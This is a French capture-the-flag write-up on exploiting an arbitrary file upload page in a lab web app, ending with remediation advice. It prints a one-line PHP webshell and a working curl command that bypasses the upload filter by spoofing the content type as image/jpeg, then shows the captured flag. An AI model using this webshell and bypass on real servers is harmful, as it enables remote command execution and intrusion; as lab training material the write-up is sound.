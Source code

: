 # Write up Arbitrary File Upload

# Exploration

Nous avons trouvé une fonctionnalité d’upload de fichier durant nos recherches, sur la page **upload.** Un upload de fichier mal sécurisé peut vite avoir un fort impact sur une application web si il est mal implémenté, le cas critique étant une execution de commandes à distance.

Nous avons testé le workflow basique d’upload en essayant d’ajouter une simple image, **fleur.jpg**:

![Capture d’écran 2024-05-01 à 19.20.09.png](images/Capture_decran_2024-05-01_a_19.20.09.png)

Le fichier semble être sauvegardé sur le serveur, sur le chemin **/tmp/fleur.jpg**

# Exploitation

Nous avons ensuite essayé d’upload un [webshell](https://fr.wikipedia.org/wiki/Code_encoquill%C3%A9) PHP, étant donné que l’app est en PHP:

```jsx
~ echo '<?php system($_GET["cmd"])?>' >> webshell.php
```

Malheureusement, il semble qu’il y ait des protections, est nous n’avons pas réussi à upload ce fichier, surement du à son extension:

![Capture d’écran 2024-05-01 à 19.27.29.png](images/Capture_decran_2024-05-01_a_19.27.29.png)

Nous avons aussi essayé de modifier le nom du fichier avec, par exemple, **webshell.jpg.php**, au cas où il y ai un regex mal configuré, attendant **.jpg** dans le nom du fichier, mais cela n’a pas non plus fonctionné.

Nous avons en revanche réussi à upload ce fichier en modifiant le content type de ce fichier avec **image/jpeg**:

```jsx
curl -X POST 'http://192.168.64.36/index.php?page=upload' --form 'MAX_FILE_SIZE=100000' --form 'uploaded=@webshell.php;filename=webshell.php;type=image/jpeg' --form 'Upload=Upload' | grep flag
[... TRUNCATED DATA ...]
The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
[... TRUNCATED DATA ...]
/tmp/webshell.php succesfully uploaded.
```

Et nous avons donc récupéré le flag.

# Remédiation

Un arbitrary file upload réussi peut mener dans le pire cas à une execution de commande sur le serveur à distance.

Voici différentes idées à mettre en place pour pallier à cette vulnérabilité:

- Valider l’extension des fichiers, en implémentant une whitelist des extensions autorisées
- Analyser le MIME type, et implémenter une whitelist en concordance avec les extensions autorisées
- Renommer le fichier télécharger en utilisant un UUID
- Stocker les fichiers sur un serveur dédié, en dehors de l’application web
